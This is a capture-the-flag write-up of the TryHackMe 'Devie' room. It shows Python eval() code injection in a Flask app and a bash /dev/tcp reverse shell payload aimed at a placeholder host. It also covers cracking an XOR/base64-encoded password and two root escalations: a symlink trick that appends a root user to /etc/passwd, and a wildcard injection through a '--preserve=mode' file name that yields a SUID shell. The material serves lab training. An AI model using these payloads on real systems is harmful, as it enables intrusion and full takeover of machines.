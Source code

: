 ```yaml
---
title: THM Devie
author: hanhctf
date: 2023-04-04 22:22:22 +0700
categories: [Write-up, THM]
tags: [eval(), python, code review]
toc: true
mermaid: true
---
```


# [**_Devie room_**](https://tryhackme.com/room/devie)


## Nmap 
With rustscan we can see 2 ports are open
```shell
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
5000/tcp open  upnp?   syn-ack
```

## Code review
In port 5000 is Flask application and we can get the source code to review.  
in app.py
```python
@app.route("/")
def bisect(xa,xb):
    added = xa + " + " + xb
    c = eval(added)
    c = int(c)/2
    ya = (int(xa)**6) - int(xa) - 1 #f(a)
    yb = (int(xb)**6) - int(xb) - 1 #f(b)
```

Function __bisect()__ use __eval()__ function that can be used to achieve authentication bypass and even code injection.

And it's validation on the inputs (in **bisection.py**) just checks they are string fields.
```python
from wtforms import Form, StringField, validators

class InputForm3(Form):
    xa = StringField(default=1,validators=[validators.InputRequired()])
    xb = StringField(default=1,validators=[validators.InputRequired()])
```

==> This can be exploited to run command via passing in a command like
```shell
__import__('os').system('id;whoami')#
```

But we get Code 500 Internal Server Error
![](/commons/THM/Devie/command_inject.png)
![](/commons/THM/Devie/500_internal_server_error.png)


So we run app on local and check.  
In terminal, on dir of source code
```shell
python3 app.py
```
![](/commons/THM/Devie/run_app_on_local.png)


When run code inject on browser ==> Code executed on the backend
![](/commons/THM/Devie/code_excution_on_backend.png)

==> We can get reverse shell with:  
```python
__import__('os').system('bash -c "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1"')#
```

![](/commons/THM/Devie/got_reverse_shell.png)

```shell
bruce@devie:~$ id;whoami
id;whoami
uid=1000(bruce) gid=1000(bruce) groups=1000(bruce)
bruce
bruce@devie:~$ 
```
**Got flag1.txt**

## Privilege escalation from _bruce_ --> __gordon__
 
We found file "note" in home dir of bruce
```
Hello Bruce,

I have encoded my password using the super secure XOR format.

I made the key quite lengthy and spiced it up with some base64 at the end to make it even more secure. I'll share the

For now look at this super secure string:
NEUEDTIeN1MRDg5K

Gordon
```

Password of __Gordon__ encrypt with this flow  
**password** _XOR_ ==> **encrypted** _base64_ ==> **super secure string**
```shell
bruce@devie:~$ sudo -l
sudo -l
Matching Defaults entries for bruce on devie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bruce may run the following commands on devie:
    (gordon) NOPASSWD: /usr/bin/python3 /opt/encrypt.py
```
```shell
bruce@devie:~$ sudo -u gordon /usr/bin/python3 /opt/encrypt.py
sudo -u gordon /usr/bin/python3 /opt/encrypt.py
Enter a password to encrypt: password
AxQDFgUcFwc=
bruce@devie:~$ sudo -u gordon /usr/bin/python3 /opt/encrypt.py
sudo -u gordon /usr/bin/python3 /opt/encrypt.py
Enter a password to encrypt: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
EhQRBBMSBAITBBUKBBgZDhMZDhMSFBEEExIEAhMEFQoEGBkOExkOExI=
```

With cyberchef, we can easy find the **secret_key** ==> Password of Gordon
![](/commons/THM/Devie/secret_key.png)
![](/commons/THM/Devie/passwd_Gordon.png)

**Got flag2.txt** 

## Privilege escalation from _gordon_ --> **root**
Use __pspy__, we can see a cronjob
```shell
2023/04/03 09:38:01 CMD: UID=0    PID=24540  | /usr/sbin/CRON -f 
2023/04/03 09:38:01 CMD: UID=0    PID=24542  | /usr/bin/bash /usr/bin/backup 
2023/04/03 09:38:01 CMD: UID=0    PID=24541  | /bin/sh -c /usr/bin/bash /usr/bin/backup 
2023/04/03 09:38:01 CMD: UID=0    PID=24543  | cp report1 report2 report3 /home/gordon/backups/
2023/04/03 09:39:01 CMD: UID=0    PID=24544  | /usr/sbin/CRON -f 
2023/04/03 09:39:01 CMD: UID=0    PID=24546  | /usr/bin/bash /usr/bin/backup 
2023/04/03 09:39:01 CMD: UID=0    PID=24545  | /bin/sh -c /usr/bin/bash /usr/bin/backup 
2023/04/03 09:39:01 CMD: UID=0    PID=24547  | cp report1 report2 report3 /home/gordon/backups/
```

```shell
gordon@devie:~$ cat /usr/bin/backup 
cat /usr/bin/backup
#!/bin/bash

cd /home/gordon/reports/

cp * /home/gordon/backups/

```

### View source code of backup app, we can use 2 methods to get **root**
#### ***Method 1*** use symbolic link

1. copy /etc/passwd →  /home/gordon/reports
2. add a user have a root permission    

```shell
mkpasswd -m sha512crypt
Password: password
$6$eEZqqrBwHGHO/Xun$TcuLtBIraRYkI8gHx4uhV.zyiGapYMZzT02PI4STnSNM8HjNzutZg/vkkbf70I3kpIzaLn9QlPXsnLvTiXRDM.                                                                                                                                                          
echo "hanhctf:\$6\$eEZqqrBwHGHO/Xun\$TcuLtBIraRYkI8gHx4uhV.zyiGapYMZzT02PI4STnSNM8HjNzutZg/vkkbf70I3kpIzaLn9QlPXsnLvTiXRDM.:0:0:hanhctf:/hanhctf:/bin/bash" >> ~/home/gordon/reports/passwd
```   

3. remove backups folder in /home/gordon/
4. Create a symbolic link ln -s /etc /home/gordon/backups ⇒ system will auto replace passwd in /home/gordon that added new root user to /etc    

```shell
gordon@devie:~$ su hanhctf
su hanhctf
Password: password
root@devie:/home/gordon# id;whoami
id;whoami
uid=0(root) gid=0(root) groups=0(root)
root
root@devie:/home/gordon#
```   

#### ***Method 2*** use wildcard --preserve=mode of **cp**
In  

```shell
cp * /home/gordon/backups/
```   

1. If we just use the regular cp command, the ownership and timestamp change, but we don't keep the same permissions.
2. The *--preserve=mode* allows to maintain the permissions of a file when copying over.   

```shell
gordon@devie:~/reports$ cp /bin/bash ./bash && chmod u+s ./bash && echo "" > "--preserve=mode" 
< && chmod u+s ./bash && echo "" > "--preserve=mode"
gordon@devie:~/reports$ ls -la
ls -la
total 1180
drwxrwx--- 2 gordon gordon    4096 Apr  4 01:23  .
drwxr-xr-x 4 gordon gordon    4096 Apr  4 01:21  ..
-rwsr-xr-x 1 gordon gordon 1183448 Apr  4 01:23  bash
-rw-rw-r-- 1 gordon gordon       1 Apr  4 01:23 '--preserve=mode'
-rw-r--r-- 1    640 gordon      57 Feb 19 23:31  report1
-rw-r--r-- 1    640 gordon      72 Feb 19 23:32  report2
-rw-r--r-- 1    640 gordon     100 Feb 19 23:33  report3
gordon@devie:~/reports$ cd ../backups
cd ../backups
gordon@devie:~/backups$ ls -la
ls -la
total 1180
drwxrwx--- 2 gordon gordon    4096 Apr  4 01:24 .
drwxr-xr-x 4 gordon gordon    4096 Apr  4 01:21 ..
-rwsr-xr-x 1 root   root   1183448 Apr  4 01:30 bash
-rw-r--r-- 1 root   root      2090 Apr  4 01:22 passwd
-rw-r--r-- 1 root   root        57 Apr  4 01:30 report1
-rw-r--r-- 1 root   root        72 Apr  4 01:30 report2
-rw-r--r-- 1 root   root       100 Apr  4 01:30 report3
gordon@devie:~/backups$ ./bash -p
./bash -p
bash-5.0# id;whoami
id;whoami
uid=1001(gordon) gid=1001(gordon) euid=0(root) groups=1001(gordon)
root
bash-5.0# 
```

**Got root.txt** 

